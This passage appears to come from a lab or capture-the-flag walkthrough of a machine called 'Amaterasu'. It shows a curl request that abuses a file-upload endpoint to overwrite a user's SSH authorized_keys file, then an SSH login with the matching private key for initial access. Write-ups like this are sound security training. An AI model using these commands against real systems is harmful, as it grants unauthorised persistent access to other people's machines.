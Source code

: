 ![Untitled](../assets/img/pg/Amaterasu/Untitled%209.png)

Send the key to the server.

```bash
curl -i -L -X POST -H "Content-Type: multipart/form-data" -F file="@/tmp/id_rsa.txt" -F filename="/home/alfredo/.ssh/authorized_keys" http://192.168.197.249:33414/file-upload
```

![Untitled](../assets/img/pg/Amaterasu/Untitled%2010.png)

Initial Access

Login with SSH private key

```bash
sudo ssh -oHostKeyAlgorithms=+ssh-dss alfredo@192.168.197.249 -p 25022 -i /home/0xfl0k1/.ssh/id_rsa
```

![image.png](../assets/img/pg/Amaterasu/image.png)
